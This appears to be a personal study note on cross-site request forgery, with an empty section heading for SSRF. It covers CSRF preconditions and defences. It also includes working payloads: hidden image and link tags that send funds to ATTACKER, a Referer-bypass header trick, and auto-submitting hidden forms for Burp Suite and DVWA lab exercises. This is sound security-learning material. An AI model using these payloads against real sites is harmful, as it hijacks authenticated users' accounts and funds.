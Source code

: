 # Cross-Site Request Forgery and  Server-Side Request Forgery


## CSRF (or XSRF)

The attacker causes the victim to carry out an action while authenticated.



3 key conditions must be in place:

- A relevant action. There is an action within the application that the attacker has a reason to induce. This might be a privileged action (such as modifying permissions for other users) or any action on user-specific data (such as changing the user's own password).

- Cookie-based session handling. Performing the action involves issuing one or more HTTP requests, and the application relies solely on session cookies to identify the user who has made the requests. There is no other mechanism in place for tracking sessions or validating user requests.

- No unpredictable request parameters. The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess. For example, when causing a user to change their password, the function is not vulnerable if an attacker needs to know the value of the existing password.




### Prevention

- CSRF Token
	- <https://stackoverflow.com/questions/6287903/how-to-properly-add-cross-site-request-forgery-csrf-token-using-php>
	- <https://github.com/paragonie/anti-csrf>
	
- SameSite Cookies





### Examples:
	- changing their email address
	- transferring funds
	
	
	
	
### Bypassing referer


append in the form of a query string
`Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net`


many browsers now strip the query string from the Referer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request, go back to the exploit server and add the following header to the "Head" section:

`Referrer-Policy: unsafe-url` (the word "referrer" must be spelled correctly in this case)






Example:
```
<html>
    <body>
		<script>history.pushState('','','http://localhost:4280/vulnerabilities/csrf'</script>
        <h1>Hello World!</h1>
		<a href="http://localhost:4280/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change">Go to page</a>
    </body>
</html>
```


See History API
https://www.youtube.com/watch?v=ABllxOcsPsc&list=PLyuRouwmQCjmQTKvgqIgah03HF1wrYkA9&index=29





### Payloads


`<a href="http://bank.com/transfer.do?acct=ATTACKER&amount=100000">View my Pictures!</a>`

`<img src="http://bank.com/transfer.do?acct=ATTACKER&amount=100000" width="0" height="0" border="0">`





#### Burp Suite Lab: CSRF vulnerability with no defenses

Option 1
```
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe" id="csrf-form">
            <input type="hidden" name="email" value="test@test.ca">
        </form>
        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>

```

Option 2
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test%40test">
</form>
<script>
        document.forms[0].submit();
</script>
```












## SSRF






























